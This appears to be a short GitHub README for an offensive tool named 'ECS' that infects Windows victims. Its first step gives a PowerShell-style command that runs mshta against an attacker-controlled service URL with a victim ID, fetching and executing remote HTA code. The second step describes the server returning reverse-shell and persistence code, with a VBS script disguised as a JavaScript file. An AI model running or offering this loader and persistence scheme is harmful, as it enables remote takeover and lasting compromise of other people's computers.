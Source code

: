 # ECS
![](./ECC.png)

## <code style="color : red">step1: </code>

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>


